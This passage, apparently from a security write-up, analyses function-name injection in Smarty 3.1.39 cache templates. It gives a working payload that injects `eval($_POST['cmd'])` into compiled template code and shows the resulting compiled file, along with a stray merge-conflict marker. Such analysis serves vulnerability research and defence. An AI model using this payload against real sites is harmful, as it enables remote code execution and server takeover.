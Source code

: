 ```php
if (!function_exists('smarty_template_function_(){};_18679747696239ecbe74eee5_05027020')) {
function smarty_template_function_(){};_18679747696239ecbe74eee5_05027020(Smarty_Internal_Template $_smarty_tpl,$params) {
foreach ($params as $key => $value) {
$_smarty_tpl->tpl_vars[$key] = new Smarty_Variable($value, $_smarty_tpl->isRenderingCache);
}
}}
/*/ smarty_template_function_(){};_18679747696239ecbe74eee5_05027020 */
}
```

According to the generated content format, it is not difficult to construct a malicious bypass `Payload`: `data={function name='(){};/*";}/*'}*/eval($_POST['cmd']);"}{/function}&cmd=phpinfo();`. You can see that the generated cache template function is successfully closed perfectly.

```php
<?php
/* Smarty version 3.1.39, created on 2022-03-22 23:45:24
  from 'c16d407db4adb2d55529d8d5521a1a1585555d84' */

/* @var Smarty_In
ternal_Template $_smarty_tpl */
if ($_smarty_tpl->_decodeProperties($_smarty_tpl, array (
  'version' => '3.1.39',
  'unifunc' => 'content_6239ef14a8b872_01812683',
  'has_nocache_code' => false,
  'file_dependency' =>
  array (
  ),
  'includes' =>
  array (
  ),
),false)) {
function content_6239ef14a8b872_01812683 (Smarty_Internal_Template $_smarty_tpl) {
$_smarty_tpl->smarty->ext->_tplFunction->registerTplFunctions($_smarty_tpl, array (
  '(){};/*";}/*' =>
  array (
    'compiled_filepath' => 'C:\\Tools\\phpstudy_pro\\WWW\\html\\templates_c\\c16d407db4adb2d55529d8d5521a1a1585555d84_0.string.php',
    'uid' => 'c16d407db4adb2d55529d8d5521a1a1585555d84',
    'call_name' => 'smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413',
  ),
));
}
/* smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413 */
if (!function_exists('smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413')) {
function smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413(Smarty_Internal_Template $_smarty_tpl,$params) {
foreach ($params as $key => $value) {
$_smarty_tpl->tpl_vars[$key] = new Smarty_Variable($value, $_smarty_tpl->isRenderingCache);
}
?>
*/eval($_POST['cmd']);"}<?php
}}
/*/ smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413 */
}
```

>>>>>>> 8cafef977134ca4058458a57910f051e339a9dc1
<div align=center><img src="./images/13.png"></div>